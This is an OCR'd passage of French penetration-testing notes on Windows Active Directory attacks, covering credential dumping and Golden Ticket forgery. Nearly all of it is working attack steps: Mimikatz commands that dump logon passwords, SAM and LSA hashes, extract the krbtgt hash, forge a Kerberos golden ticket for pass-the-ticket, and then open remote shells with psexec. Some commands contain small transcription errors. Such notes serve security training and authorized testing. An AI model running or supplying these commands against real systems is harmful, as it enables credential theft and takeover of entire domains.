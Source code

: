 ### 5.2 Dumping des creds

cmd
*mimikatz.exe*
*privilege::debug* (si "20 OK" on est bon)
*sekurlsa::logonpasswords*
On peut récup les hashes qui sont affichés
*lsadump::sam* (dumper la SAM)
*lsadump::lsa /patch* (on obtient les hashes des users via le dump du lsa, local security authority)

## 6. Golden Ticket (et Pass-the-Ticket)

Si on récupère le hash du krbtgt (par exemple avec mimikatz), on peut forger un golden ticket

On utilise Mimikatz

cmd
*mimikatz.exe*
*privilege::debug* (si "20 OK" on est bon)
*lsadump::lsa /inject /name:krbtgt*
On prend note de : SID du domaine (S-1-5....) et le NTLM du krbtgt
*kerberos::golden /User:Pentester /domain;<domain_name.local> /sid:<copie_sid>/krbtgt:<hash_NTLM_krbtgt> /id:500 /ptt*
*misc::cmd* (on a un prompt avec le golden ticket)

On a présent un accès quasi illimité à l'ensemble du domaine.   
Par exemple on peut avec un shell sur une machine :
*psexec.exe \\<Nom de la machine> cmd.exe*


